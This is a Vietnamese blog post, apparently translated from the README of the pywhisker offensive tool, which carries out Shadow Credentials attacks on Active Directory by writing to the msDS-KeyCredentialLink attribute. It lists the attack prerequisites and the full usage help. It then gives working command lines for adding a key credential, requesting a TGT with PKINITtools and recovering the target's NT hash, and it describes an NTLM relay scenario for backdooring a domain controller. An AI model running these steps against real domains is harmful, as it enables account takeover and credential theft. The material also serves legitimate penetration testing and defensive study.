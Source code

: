 ```yaml
---
title: Công cụ pywhisker
date: 1/8/2021
layout: single
teaser: https://github.com/ShutdownRepo/pywhisker/blob/main/.assets/add_pem.png?raw=true
--- 
```


## Giới thiệu PyWhisker 
Tác giả: ShutdownRepo
Khai thác [github/ShutdownRepo/pywhiske](https://github.com/ShutdownRepo/pywhisker)

PyWhisker là một Python tương đương với [Whisker](https://github.com/eladshamir/Whisker) gốc do [Elad Shamir](https://twitter.com/elad_shamir) tạo ra và được viết bằng C#. Công cụ này cho phép người dùng thao tác thuộc tính `msDS-KeyCredentialLink` của người dùng / máy tính mục tiêu để có toàn quyền kiểm soát đối tượng đó. Nó dựa trên [Impacket](https://github.com/SecureAuthCorp/impacket) và trên Python tương đương với DSInternals của [Michael Grafnetter](https://twitter.com/MGrafnetter) được gọi là [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Công cụ này, cùng với [PKINITtools](https://github.com/dirkjanm/PKINITtools) của [Dirk-jan](https://twitter.com/_dirkjan) cho phép khai thác hoàn toàn nguyên thủy chỉ trên các hệ thống dựa trên UNIX.

Điều kiện tiên quyết cho cuộc tấn công này như sau

1. Mức chức năng miền mục tiêu phải là Windows Server 2016 trở lên.
2. Miền đích phải có ít nhất một Bộ điều khiển miền chạy Windows Server 2016 trở lên.
3. Bộ điều khiển miền để sử dụng trong cuộc tấn công phải có chứng chỉ và khóa riêng (điều này có nghĩa là tổ chức phải có AD CS hoặc PKI, CA hoặc thứ gì đó tương tự).
4. Kẻ tấn công phải có quyền kiểm soát tài khoản có thể ghi thuộc tính msDs-KeyCredentialLink của tài khoản máy tính hoặc người dùng mục tiêu

Tại sao một số yêu cầu trước?

+ Yêu cầu trước 1 và 2 vì các tính năng PKINIT đã được giới thiệu với Windows Server 2016
+ Yêu cầu trước 3 vì DC cần chứng chỉ và khóa của riêng nó để trao đổi khóa phiên trong giao dịch `AS_REQ <-> AS_REP`.
A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` sẽ được nâng lên nếu yêu cầu trước 3 không được đáp ứng.

Thông tin thêm về Shadow Credentials này
+ [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
+ [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
+ [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

## Sử dụng
pyWhisker hỗ trợ các xác thực sau

+ (NTLM) Cleartext password
+ (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
+ (Kerberos) Cleartext password
+ (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
+ (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Trong số những thứ khác, pyWhisker hỗ trợ nhiều cấp độ chi tiết, chỉ cần thêm `-v`,`-vv`

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

```powershell
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove

```
Dưới đây là các ví dụ và ảnh chụp màn hình về những gì PyWhisker có thể làm

## Liệt kê và nhận thông tin
PyWhisker có khả năng liệt kê các KeyCredentials hiện có. Ngoài ra, nó có thể mở toàn bộ cấu trúc để hiển thị mọi phần thông tin mà đối tượng chứa (bao gồm cả các tham số khóa công khai RSA)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![1](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/list_info.png)

## Clear and remove
PyWhisker có khả năng xóa các giá trị cụ thể hoặc xóa toàn bộ thuộc tính.
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![2](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/remove.png)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![3](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/clear.png)

## Thêm giá trị mới
PyWhisker có khả năng tạo khóa RSA, chứng chỉ X509, cấu trúc KeyCredential và ghi thông tin cần thiết dưới dạng giá trị mới của thuộc tính `msDs-KeyCredentialLink`. Chứng chỉ có thể được xuất ở định dạng PFX (# PKCS12, khóa riêng của chứng chỉ được bảo vệ bằng mật khẩu) hoặc ở định dạng PEM (chứng chỉ PEM, khóa riêng PEM, không cần mật khẩu).

## Ví dụ với định dạng PFX
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![4](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). Băm NT sau đó có thể được khôi phục bằng [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![5](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx_gettgtnthash.png)

## Ví dụ với định dạng PEM
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```

![6](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với `gettgtpkinit.py1`. Băm NT sau đó có thể được khôi phục bằng `getnthash.py`.

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![7](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem_gettgtnthash.png)

## Xác thực chuyển tiếp
[Yêu cầu](https://github.com/SecureAuthCorp/impacket/pull/1132) hiện đang chờ phê duyệt để đưa tính năng "thêm" của pywhisker vào ntlmrelayx

![8](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/relay.png)

## Kiến thức hữu ích
Đối tượng người dùng không thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng họ. Các đối tượng máy tính có thể. Điều này có nghĩa là tình huống sau có thể hoạt động: kích hoạt xác thực NTLM từ DC01, chuyển tiếp nó đến DC02, khiến pywhisker chỉnh sửa thuộc tính của DC01 để tạo cửa sau xác thực trước Kerberos PKINIT trên đó

![9](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/user_cant_self_edit.png)

Các đối tượng máy tính có thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng chúng nhưng chỉ có thể thêm KeyCredential nếu chưa có

![10](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/computers_can_self_edit.png)

Nếu bạn gặp lỗi, hãy đảm bảo không có sự chênh lệch về thời gian giữa máy chủ lưu trữ kẻ tấn công của bạn và Trung tâm phân phối khóa (thường là Bộ điều khiển miền). Để tránh lỗi đó, các chứng chỉ được tạo bởi công cụ pyWhisker có giá trị 40 năm trước ngày hiện tại và 40 năm sau.

## Tín dụng và tài liệu tham khảo
+ Tín dụng cho [Dirk-jan](https://twitter.com/_dirkjan) vì công việc của anh ấy trên [PKINITtools](https://github.com/dirkjanm/PKINITtools/). Ban đầu, chúng tôi đã lên kế hoạch tái cấu trúc các tập lệnh Impacket (đặc biệt là [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) để triển khai xác thực trước PKINIT không đối xứng cho Kerberos. Anh ấy đã cứu chúng tôi rất nhiều đau đầu bằng cách viết nó trước chúng tôi!
+ Tín dụng cho toàn bộ nhóm đằng sau [Impacket](https://github.com/SecureAuthCorp/impacket/) và những người đóng góp của nó.
+ Tín dụng cho [Elad Shamir](https://twitter.com/elad_shamir), người đã tạo ra công cụ C # ban đầu ([Whisker](https://github.com/eladshamir/Whisker)) và cho [Michael Grafnetter's](https://twitter.com/MGrafnetter), người đã tạo ra [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), một thư viện thực hiện hầu hết các công việc nặng nhọc của Whisker. Anh ấy cũng là người đã thực hiện bản demo đầu tiên của Mũ đen trình bày về đòn tấn công 
